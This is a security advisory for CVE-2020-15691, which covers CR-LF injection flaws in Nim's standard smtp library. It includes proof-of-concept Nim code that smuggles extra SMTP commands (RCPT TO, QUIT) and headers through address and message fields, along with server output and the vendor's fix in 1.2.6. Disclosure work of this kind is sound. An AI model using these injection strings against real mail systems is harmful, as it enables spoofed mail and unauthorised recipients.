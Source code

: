 ```yaml
---
title: "Nim - stdlib smtp - multiple crlf injections"
date: 2020-07-30T18:41:52+01:00

cve: ["CVE-2020-15691"]
vendor: nim-lang
vendorUrl: https://nim-lang.org/
authors: tintinweb
affectedVersions: [ "< 1.2.6" ]
vulnClass: CWE-93

---
```


# Vulnerability Note

## Summary 

The following vulnerability note describes vulnerabilities found in the nim-lang `smtp` standard library.

also see: https://consensys.net/diligence/vulnerabilities/nim-smtp-crlf-injections/

## Details

### Description

The nim standard library `smtp` is vulnerable to multiple protocol character sequence injections (`CR-LF` and `CR-LF.CR-LF`). An injection is possible if the attacker controls any argument that is passed to the remote server such as any address (`from`, `to`, `cc`), or the message itself.


### Proof of Concept


#### 1) `CR-LF` injection in parameters to `createMessage` and `sendmail`

*note: `\c\LSubject: injected@googl.ecom"` in `mto` (note same works for `mCc, ..`)*

*note: `\c\LRCPT TO:<injected@gmail.com>` in  `fromAddr`, `toAddr`*

```nim
import smtp

var msg = createMessage("Hello from Nim's SMTP",
                        "test",
                        @["foo@gmail.com\c\LSubject: injected@googl.ecom"])
echo msg
let smtpConn = newSmtp(useSsl = false, debug=true)
smtpConn.connect("localhost", Port 10001)
smtpConn.sendmail("username@gmail.com\c\LRCPT TO:<injected@gmail.com>", @["foo@gmail.com\c\LRCPT TO:<injected@gmail.com>"], $msg)
```

Output:

```
⇒  nim c -r -d:ssl  smtp_inject.nim
...
Hint: /Users/tintin/workspace/nim/test/issues/smtp_injection/smtp_inject  [Exec]
TO: foo@gmail.com
Subject: injected@googl.ecom
Subject: Hello from Nim's SMTP

test
S:220 fake smtpd
C:HELO localhost

S:250 ok
C:MAIL FROM:<username@gmail.com>
RCPT TO:<injected@gmail.com>

S:250 ok
C:RCPT TO:<foo@gmail.com>
RCPT TO:<injected@gmail.com>

S:250 ok
C:DATA 

S:354 End data with <CR><LF>.<CR><LF>
C:.

S:250 ok
```

```
⇒  nc -l 10001
220 fake smtpd    
HELO localhost
250 ok
MAIL FROM:<username@gmail.com>
RCPT TO:<injected@gmail.com>
250 ok
RCPT TO:<foo@gmail.com>
RCPT TO:<injected@gmail.com>
250 ok
DATA 
354 End data with <CR><LF>.<CR><LF>
TO: foo@gmail.com
Subject: injected@googl.ecom
Subject: Hello from Nim's SMTP

test
.
250 ok
```

#### 2) msg-end injection in message: `<CR><LF>.<CR><LF>`

*note: `<CR><LF>.<CR><LF>` in message is not encoded and therefore allows to terminate the messsage early, injecting a command into the smtp stream.*

```nim
import smtp

var msg = createMessage("Hello from Nim's SMTP",
                        "Hello!.\c\L\n Is this awesome or what?\c\L\c\L.\c\LQUIT",  #EOF message injection in messagre. leading dot is not escaped
                        @["foo@gmail.com"])
echo msg
let smtpConn = newSmtp(useSsl = false, debug=true)
smtpConn.connect("localhost", Port 10001)
smtpConn.sendmail("username@gmail.com>", @["foo@gmail.com>"], $msg)
```

run:

```
Hint: /Users/tintin/workspace/nim/test/issues/smtp_injection/smtp_inject  [Exec]
TO: foo@gmail.com
Subject: Hello from Nim's SMTP

Hello!.

 Is this awesome or what?

.
QUIT
S:220 fake smptd
C:HELO localhost

S:250 ok
C:MAIL FROM:<username@gmail.com>>

S:250 ok
C:RCPT TO:<foo@gmail.com>>

S:250 ok
C:DATA 

S:354 End data with <CR><LF>.<CR><LF>
C:.

S:250 ok
```

```
⇒  nc -l 10001                                                                               
220 fake smptd
HELO localhost
250 ok
MAIL FROM:<username@gmail.com>>
250 ok
RCPT TO:<foo@gmail.com>>
250 ok
DATA 
354 End data with <CR><LF>.<CR><LF>
TO: foo@gmail.com
Subject: Hello from Nim's SMTP

Hello!.

 Is this awesome or what?

.
QUIT
.
250 ok
```

or using a simple SMTP debug server:

```python
import smtpd

class SMTPTestServer(smtpd.SMTPServer):
    def process_message(self, peer, mailfrom, rcpttos, data, **kwargs):
        print(peer, mailfrom, rcpttos, data)
    
```

Note that the msg is cut off at `CR-LF.CR-LF` and the next message is injected into the smtp stream.

```
⇒  python -m smtpd -n -c smtpdebug.SMTPTestServer localhost:10001
(('127.0.0.1', 49282), 'username@gmail.com>', ['foo@gmail.com>'], "TO: foo@gmail.com\nSubject: Hello from Nim's SMTP\n\nHello!.\n\n Is this awesome or what?\n")
```



### Proposed Fix

- properly validate all parameters used in the module. Do not allow any context sensitive characters of the underlying protocol

## Vendor Response

Vendor response: fixed in [v1.2.6](https://nim-lang.org/blog/2020/07/30/versions-126-and-108-released.html) ([Official Security Advisory](https://github.com/nim-lang/security/security/advisories/GHSA-p5f5-fxhh-qx3w))

### Timeline

```
JUL/13/2020 - contact nim developers @telegram; provided details, PoC
MAR/26/2021 - vendor advisory (https://github.com/nim-lang/security/security/advisories/GHSA-p5f5-fxhh-qx3w), public disclosure
```

## References

* [1] https://nim-lang.org/
* [2] https://nim-lang.org/install.html
* [3] https://en.wikipedia.org/wiki/Nim_(programming_language)
* [4] https://nim-lang.org/blog/2020/07/30/versions-126-and-108-released.html
